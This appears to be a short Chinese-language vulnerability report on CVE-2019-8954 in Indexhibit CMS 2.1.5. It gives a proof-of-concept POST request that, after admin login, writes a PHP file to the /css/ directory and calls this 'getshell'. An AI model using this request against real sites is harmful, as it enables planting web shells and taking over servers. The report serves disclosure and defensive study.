


### 漏洞简介  

|漏洞名称|上报日期|漏洞发现者|产品首页|软件链接|版本|CVE编号|
--------|--------|---------|--------|-------|----|------|
|indexhibit cms v2.1.5 直接编辑php文件getshell|2019-02-20|yc（3365487579@qq.com）|[https://www.indexhibit.org/](https://www.indexhibit.org/) | [https://www.indexhibit.org/](https://www.indexhibit.org/) |v2.1.5| [CVE-2019-8954](http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-8954)|  

#### 漏洞概述  

> indexhibit CMS 2.1.5版本存在一个直接编辑php文件的漏洞，导致getshell。   

### POC实现代码如下：  

> 当我们登录进后台后，向/ndxzstudio/?a=system  
> post数据：

``` raw
upd_jxcode=true&v=%253C%253Fphp%2520phpinfo()%253B%253F%253E&id=%2Fcss%2Faudio.php
```
> 即可在/css/目录写入一个php文件audio.php。  


> 成功getshell：


